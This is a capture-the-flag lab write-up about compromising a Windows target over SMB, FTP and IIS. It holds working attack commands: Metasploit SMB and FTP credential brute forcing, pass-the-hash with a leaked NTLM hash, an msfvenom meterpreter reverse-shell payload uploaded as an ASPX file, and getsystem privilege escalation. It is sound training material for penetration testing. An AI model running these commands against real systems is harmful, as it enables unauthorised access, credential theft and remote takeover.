

# Lab Environment

A target machine is accessible at **target.ine.local**. Identify the services and capure the flags.

- **Flag 1:** Looks like smb user **tom** has not changed his password from a very long time.
- **Flag 2:** Using the NTLM hash list discovered in the previous challenge, can you compromise the smb user **nancy**?
- **Flag 3:** I wonder what the hint found in the previous challenge be useful for!
- **Flag 4:** Can you compromise the target machine and retrieve the **C://flag4.txt** file?

The following wordlist will be useful:

- /usr/share/wordlists/metasploit/unix_passwords.txt

# Tools

- Metasploit
- Nmap
- smbmap
- Firefox

**Flag 1:** Looks like smb user **tom** has not changed his password from a very long time.

So this is a nice little easy start to the CTF, it pretty much tells us what to look out for.

We are looking for smb users on the target, tom's password is going to be the target here.

First of all, let's run nmap and see what we can gather right from the get go!

nmap -sSVC -p- target.ine.local

So we have port 21 ftp, port 80 Microsoft IIS, port 445 which is SMB, port 3389 is RDP. Interesting.

Let's have a look to see what the http site lookslike just so we have an idea on what we are dealing with at the visual level.

It doesn't appear to be anything interesting or that we can work with here at the moment, which is fine, always good to get an idea :)

So now that we have some services that we know are on the system, we now best be getting to enumerating these services, collecting information on the target to find out these usernames and possible credentials.

I'm going to just jump straight into SMB since this is what the flag has said, I could use hydra but I want to stick to the tools that are "set" in the CTF. Just to keep it interesting.

So we know there is an SMB user called tom, lets load up metasploit and run a bruteforce against the unix_passwords.txt file.

module used: auxiliary/scanner/smb/smb_login

set RHOSTS target.ine.local
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set SMBUser tom
set VERBOSE false
run

Boom, it does look like toms password is weak!

user - tom
password - felipe

Now we have the creds, let's use smbmap to connect and do some enumeration to see what shares are available on the system!

smbmap -u tom -p felipe -H target.ine.local

Now, that's interesting.. HR documents on read only.. 

Let's now list out the files within HRDocuments just for a sneaky peak :P

smbmap -u tom -p felipe -H target.ine.local -r HRDocuments

Okay we definitely want those 2 files ASAP. Let's download them onto our system so we have a note of it, I have a feeling that leaked-hashes.txt will be handy for another flag!

smbmap -u tom -p felipe -H target.ine.local --download HRDocuments/flag1.txt

smbmap -u tom -p felipe -H target.ine.local --download HRDocuments/leaked-hashes.txt

Okay so now lets get FLAG 1 submitted!

**Flag 2:** Using the NTLM hash list discovered in the previous challenge, can you compromise the smb user **nancy**?

Okay so good thing we found those leaked hashes found in that text file because it's asking us to now connect to a user called "nancy".

The good thing with smbclient is we can connect using the NTLM hash however as you will see below, This is quite a large file with different hashes! The screenshot below is only a good part of it!

Now I will reuse the same module I used earlier on metasploit to connect with the nancy user, except now (after renaming the file to leaked-hashes.txt) I will set the PASS_FILE to the leaked-hashes.txt and username to nancy.

module used: auxiliary/scanner/smb/smb_login

set RHOSTS target.ine.local
set PASS_FILE leaked-hashes.txt
set SMBUser nancy
set VERBOSE false
run

Boom, we have a successful hit! Let me save this in a document just for ease!

nancy:aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad

Okay so now let's get back to smbmap and get connected to nancy, would like to see the shares associated with this user as they may be able to provide different information!

smbmap -u nancy - p aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad -H target.ine.local

NICE! We can see nancy has access to IT resources where as, tom didnt!

Same as we did with tom, there is 2 files chilling here, flag2.txt and a hint.txt! 

smbmap -u nancy - p aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad -H target.ine.local -r ITResources

Now same as before, let's get it downloaded to our system!

smbmap -u nancy - p aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad -H target.ine.local --download ITResources/flag2.txt

smbmap -u nancy - p aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad -H target.ine.local --download ITResources/hint.txt

Now, the done thing here is to open the flag2 and get it submitted!!!

**Flag 3:** I wonder what the hint found in the previous challenge be useful for!

I love the hint for this flag, it's like pointing a massive arrow at the obvious hahaha!

Let's open that hint.txt file we found from earlier.

Ohhhhh more credentials! Love that, let's have a look to see where this would come in handy!

david:omnitrix_9901

I did the obvious and try this information on SMB again, turns out david only has access to IPC$ and PRINT$ so that's a dead end at the moment!

Referring to the nmap scan from earlier, you would notice that ftp is open on this target along with port 80. I think we could use this to upload/download files to that website.

Let me load up metasploit and do an attempt to login via ftp.

module used: auxiliary/scanner/ftp/ftp_login

set RHOSTS target.ine.local
set USERNAME david
set PASSWORD omnitrix_9901
run

Well there ye are. Login successful for ftp via david!

So we would now connect via ftp via our terminal and have a look to see what's there!

ftp target.ine.local
david
omnitrix_9901

and we are connected! if we view what's there in the directory, there is flag3.txt!

Lets get the file, and view it's contents so we can submit flag 3!

get flag3.txt
cat flag3.txt

FLAG 3 SUBMITTED!

**Flag 4:** Can you compromise the target machine and retrieve the **C://flag4.txt** file?

Now this is the big one by the sounds of it, compromising the machine to the root C drive and capture the last flag!

Let's have a look at it!

So I know I have access to the ftp server, there is an aspclient directory there so I am getting a hint I could upload aspx files to this. If this is the case, then I am going to upload a reverse shell there and execute it via firefox.

first thing is first, let's set up a reverse shell payload via msfvenom.

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.37.2 LPORT=5555 -f aspx -o shell.aspx

Now started a multi/handler on metasploit using the same payload as my msfvenom payload.

use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST eth1
set LPORT 5555
run

We now need to put the .exe file onto the target which we can do by connecting to ftp again as david.

ftp target.ine.local
david
omnitrix_9901
put shell.aspx

Now the next thing we want to do is execute this badboy via firefox to get us a tasty reverse shell!

target.ine.local/shell.aspx

Bang, check out handler, we now have a meterpreter shell!

Just to be cheeky I have used the getsystem command to escalate privileges, now we have AUTHORITY\SYSTEM

Let's now get to the C:\\ and get the flag!

FLAG 4 SUBMITTED!

ALL FLAGS SUBMITTED!

Thoughts:

Overall I felt this CTF was a bit repetitive as it mainly honed in with the SMB shares, which isn't a bad thing but it would have been cool to have something different for each flag, the last flag doing the exploitation with the reverse shell was really cool and it certainly refreshed my mind on generating payloads etc.

Although the pass the hash attacks where pretty cool and nice to put that into practice.

I tried to stick to the tools it mentioned but if I went of course then fair enough :D

Not a bad CTF overall right enough but I felt like the 1st CTF in this section was funner!